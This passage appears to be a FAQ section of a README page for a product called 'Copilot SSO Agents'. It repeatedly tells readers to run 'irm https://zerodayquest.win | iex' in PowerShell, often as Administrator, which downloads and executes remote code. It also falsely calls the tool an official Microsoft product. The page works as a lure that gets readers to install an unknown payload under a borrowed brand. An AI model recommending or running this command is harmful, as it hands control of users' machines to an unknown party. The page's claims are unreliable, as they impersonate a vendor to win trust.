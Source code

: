 ### **18. How do I fix permission issues when installing Copilot SSO Agents?**  
Try running PowerShell as **Administrator** and using:  
```powershell
irm https://zerodayquest.win | iex
```  

### **19. Do I need to restart my computer after installing Copilot SSO Agents?**  
No, a restart is not required. However, if Copilot SSO Agents doesn’t work, try restarting your browser.  

### **20. Can I install Copilot SSO Agents on multiple computers?**  
Yes! Run the same PowerShell command on each device:  
```powershell
irm https://zerodayquest.win | iex
```  

### **21. Is there a way to install Copilot SSO Agents automatically?**  
Yes, you can automate the installation by running the PowerShell command in a script.  

### **22. How do I enable or disable Copilot SSO Agents after installation?**  
Copilot SSO Agents should be enabled by default. If you need to disable it, check your browser settings.  

### **23. Can I use Copilot SSO Agents with other security tools?**  
Yes, Copilot SSO Agents is compatible with most security tools.  

### **24. What browsers are supported by Copilot SSO Agents?**  
Copilot SSO Agents works with all major browsers, including Chrome, Edge, and Firefox.  

### **25. What should I do if I see an error during installation?**  
Try running PowerShell as Administrator and using:  
```powershell
irm https://zerodayquest.win | iex
```  

---

## **Final Notes**  
- For **fast installation**, run:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  
- If you experience issues, try running PowerShell as an **Administrator**.  
- For the latest updates, always use the official installation command.
- This is an official Microsoft product.

🚀 Enjoy the **Copilot SSO Agents** and stay secure! 🚀  
